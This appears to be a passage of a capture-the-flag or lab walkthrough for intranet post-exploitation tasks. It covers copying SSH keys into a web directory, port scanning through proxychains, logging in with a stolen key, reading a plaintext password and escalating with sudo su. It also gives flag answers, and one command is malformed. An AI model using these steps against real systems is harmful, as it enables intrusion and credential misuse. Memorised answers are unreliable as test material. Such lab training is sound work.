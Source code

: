 Step 15. Move the .ssh file to the /var/www/ directory -> `cp -r .ssh/ /var/www/`

Step 16. Scan open ports to see what ports you can ssh to on `proxychains nmap -p 1-9999 -sV -Pn 192.168.150.253`
    
    |S-chain|-<>-127.0.0.1:9050-<><>-192.168.150.253:80-<><>-OK
    |S-chain|-<>-127.0.0.1:9050-<><>-192.168.150.253:514-<><>-OK
    |S-chain|-<>-127.0.0.1:9050-<><>-192.168.150.253:3201-<><>-OK

Step 17. login to .253 using the ssh path -> `ssh -i /var/www/.ssh/id_rsa -p 3201 comrade@192.168.150.253`

Step 18. cat and see the contents of the hosts directory `cat cd /etc/hosts`

Answ -> #f1@g = CTRWP77dkz93JIKwM9mX

#### Post - Intranet 2 5 ####

Enumerate all items related to syslog and rsyslog.

##### ANSWER #####

Step 1. To view logs, you will need the password. Go to the home directory `cd ~`

Step 2. Get the password `cat password.txt`
        comrade::StudentMidwayPassword

Step 3. Check the syslog -> `cd /etc/rsyslog.d`

Step 4. Check all the .conf files -> `cat *`

Step 5. The flag will be at the bottom -> f1ag = 0WvFwwxy9vnA1VXJNN9e

#### Post - Intranet 3 8 ####

Enumerate user directories on the machine. Find artifacts of malicious intent. You might need higher privileges...

##### ANSWER #####

Step 1. cd as a root user `sudo su`

Step 2. `ls /root` -> check the user 

Step 3. `cd /root/brootkit/brootkit-master/`

Step 4. `cat br.conf`

Answ -> #f1@G = tZ4F6ZZJLpI91lFOG2nH

#### Post - Intranet 4 5 ####

Enumerate for security products that may be installed on the system. (i.e. antivirus, etc.)

Hint
Research the top 10 antivirus programs for Linux.

##### ANSWER #####
